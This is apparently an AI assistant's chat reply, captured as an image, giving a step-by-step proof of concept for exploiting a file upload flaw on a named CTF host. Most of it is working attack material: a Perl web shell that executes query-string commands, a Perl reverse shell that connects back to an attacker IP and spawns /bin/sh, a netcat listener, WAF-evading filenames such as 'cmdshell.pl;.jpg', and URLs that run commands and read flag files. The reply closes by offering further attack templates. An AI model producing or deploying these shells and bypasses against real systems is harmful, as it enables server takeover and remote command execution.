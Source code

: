 Here’s a **combined PoC (Proof of Concept)** that covers **both attack paths** — using a **Perl Web Shell** _and_ a **Perl Reverse Shell**, depending on which one works best in the CTF environment.

---

## 🧨 PoC: File Upload Exploitation (Perl Web Shell + Reverse Shell)

---

### 🎯 **Goal**

Exploit a vulnerable file upload functionality to either:

1. Execute system commands directly via a **web shell**, _or_
2. Get full shell access using a **reverse shell**.

---

## 🔧 Requirements

- Kali Linux (or similar)
- Burp Suite
- Netcat (`nc`)
- Your IP address (Kali box IP, e.g., `192.168.1.100`)
- Target URL: `http://hacksmith.webhop.me:5565`

---

## 📁 **Step 1: Prepare Two Payloads**

---

### **A. Perl Web Shell Payload (cmdshell.pl)**

Save as: `cmdshell.pl`

```perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
my $cmd = $ENV{'QUERY_STRING'};
print "<pre>";
system($cmd);
print "</pre>";
```

---

### **B. Perl Reverse Shell Payload (revshell.pl)**

Save as: `revshell.pl`

```perl
#!/usr/bin/perl
use Socket;
$ip = "192.168.1.100";  # Change to your Kali IP
$port = 4444;
socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));
if (connect(S, sockaddr_in($port, inet_aton($ip)))) {
  open(STDIN, ">&S");
  open(STDOUT, ">&S");
  open(STDERR, ">&S");
  exec("/bin/sh -i");
}
```

---

## 🚀 **Step 2: Start Netcat Listener (for Reverse Shell)**

```bash
nc -lvnp 4444
```

---

## 🕵️‍♂️ **Step 3: Upload Both Files via Burp Suite**

- Intercept file upload request.
- Modify filename to bypass WAF:
    - `cmdshell.pl;.jpg`
    - `revshell.pl;.jpg`
- Use `Content-Type: image/jpeg` or `application/octet-stream`.

📌 **Hint:** If upload path is predictable (e.g., `/uploads/`), you can try accessing:

```bash
http://hacksmith.webhop.me:5565/uploads/cmdshell.pl
http://hacksmith.webhop.me:5565/uploads/revshell.pl
```

---

## 🔓 **Step 4A: Use the Web Shell**

Try direct access:

```bash
http://hacksmith.webhop.me:5565/uploads/cmdshell.pl?whoami
http://hacksmith.webhop.me:5565/uploads/cmdshell.pl?ls+-la
http://hacksmith.webhop.me:5565/uploads/cmdshell.pl?cat+/var/www/html/flag.txt
```

> ✅ If this works, you'll directly see command output in the browser.

---

## 🔁 **Step 4B: Trigger the Reverse Shell**

If web shell doesn’t work or command output is restricted:

```bash
http://hacksmith.webhop.me:5565/uploads/revshell.pl
```

> ✅ If successful, you'll get a reverse shell in your `nc` terminal.

---

## 🏁 **Step 5: Find the Flag**

From either shell:

```bash
find / -name '*flag*' 2>/dev/null
cat /var/www/html/flag.txt
```

Expected output:

```
P3RL_B3AST
```

---

## 📸 **Step 6: Take Screenshots**

- File upload request in Burp
- Shell access (web or reverse)
- Command used to find and print the flag
- Flag output in terminal or browser

---

## ✅ Summary

|Method|URL Example|Benefit|
|---|---|---|
|Web Shell|`/uploads/cmdshell.pl?cat+/flag.txt`|Simple, fast|
|Reverse Shell|`/uploads/revshell.pl` + listener (`nc -lvnp 4444`)|Full terminal access|

---

Let me know if you want a **Burp Suite request template** or need help modifying this for `curl`-based testing.
